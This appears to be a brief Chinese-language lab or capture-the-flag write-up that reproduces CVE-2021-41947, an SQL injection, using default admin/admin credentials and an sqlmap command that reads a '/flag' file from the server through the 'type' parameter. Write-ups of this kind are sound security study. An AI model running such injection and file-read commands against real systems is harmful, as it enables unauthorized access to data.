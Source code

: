 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-41947)

[CVE-2021-41947](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-41947)
## 2. 漏洞复现
登录 `admin/admin` 

burp suite 抓包跑 sqlmap

```shell
python  sqlmap.py -r post.txt -p type --file-read "/flag"
```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310072354434.png)
